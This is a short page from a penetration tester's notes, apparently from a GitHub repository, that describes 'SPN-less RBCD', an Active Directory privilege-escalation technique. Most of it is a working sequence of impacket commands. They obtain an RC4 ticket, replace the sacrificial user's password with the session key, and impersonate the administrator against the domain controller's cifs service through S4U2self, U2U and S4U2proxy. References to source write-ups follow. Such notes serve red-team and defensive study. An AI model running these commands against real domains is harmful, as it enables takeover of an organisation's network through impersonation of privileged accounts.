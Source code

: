 ```yaml
---
title: SPN-less RBCD
---
```


Abuse [[notes/ad/rbcd]] without a computer account.

Requirements: Configure [[notes/ad/rbcd]] from the victim computer to your sacrificial user.

Get a RC4 TGT for your user.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-gettgt -hashes :$(pypykatz crypto nt 'passw0rd') corp.local/jdoe
    ~~~

Extract the session key.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-describeticket ./jdoe.ccache | grep 'Ticket Session Key'
    ~~~

Set the session key as new password.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-smbpasswd -newhashes :$sessionkey corp.local/jdoe:'passw0rd'@dc01.corp.local
    ~~~

Perform black magic to impersonate a privileged account ([[notes/ad/kerberos-s4u2self]] + [[notes/ad/kerberos-u2u]] + [[notes/ad/kerberos-s4u2proxy]]).

=== "[[notes/tools/impacket]]"
    ~~~ bash
    export KRB5CCNAME=$PWD/jdoe.ccache
    impacket-getst -k -no-pass -u2u -impersonate administrator -spn cifs/dc01.corp.local corp.local/jdoe
    ~~~

Reset the password of the sacrificial user if the password policy permits reuse of old passwords.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-smbpasswd -hashes :$sessionkey -newhashes :$(pypykatz crypto nt 'passw0rd') corp.local/jdoe@dc01.corp.local
    ~~~

Otherwise [[notes/ad/forced-password-change|force-change the users password]] as domain admin.

References:

- [U2U RBCD with SPN-less accounts](http://web.archive.org/web/20221230131620/https://hideandsec.sh/books/cheatsheets-82c/page/active-directory/#bkmrk-u2u-rbcd-with-spn-le), from Windows
- [U2U RBCD with SPN-less accounts](http://web.archive.org/web/20230421063418/https://hideandsec.sh/books/cheatsheets-82c/page/active-directory-python-edition#bkmrk-u2u-rbcd-with-spn-le), from Linux
- <https://twitter.com/snovvcrash/status/1595814518558543874>, real world example
- [Exploiting RBCD using a normal user account](http://web.archive.org/web/20221230024602/https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.html)
